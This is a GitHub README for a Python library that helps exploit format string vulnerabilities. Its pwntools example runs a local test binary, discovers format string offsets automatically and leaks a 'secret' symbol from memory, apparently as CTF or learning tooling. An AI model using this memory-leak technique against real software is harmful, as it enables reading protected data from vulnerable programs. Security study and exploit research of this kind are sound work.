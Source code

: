 [![Documentation Status](https://readthedocs.org/projects/formatstringexploiter/badge/?version=latest)](http://formatStringExploiter.readthedocs.org/en/latest/?badge=latest)
![Tests](https://github.com/bannsec/formatStringExploiter/workflows/Tests/badge.svg?branch=master)

# Docs
http://formatstringexploiter.readthedocs.io/en/latest/index.html

# formatStringExploiter
Helper script for working with format string bugs

Example

```python
from formatStringExploiter.FormatString import FormatString
from pwn import *
import logging

logging.basicConfig(level=logging.WARN)
log = logging.getLogger()

elf = ELF("formatStringTest")

# Defining format string executor here
def exec_fmt(s):
    p = process("./formatStringTest",buffer_fill_size=0xffff)
    p.sendline(s)
    p.recvuntil("Input a format string: ")
    out = p.recvuntil("Logged in",drop=True)
    p.close()
    return out

# Create the class and self-discover the correct offsets
fmtStr = FormatString(exec_fmt,elf=elf)

# Leak some point in memory as a string
fmtStr[elf.symbols['secret']]

# Equivalently, but with caching and more smarts...
fmtStr.leak.s(elf.symbols['secret'])
```


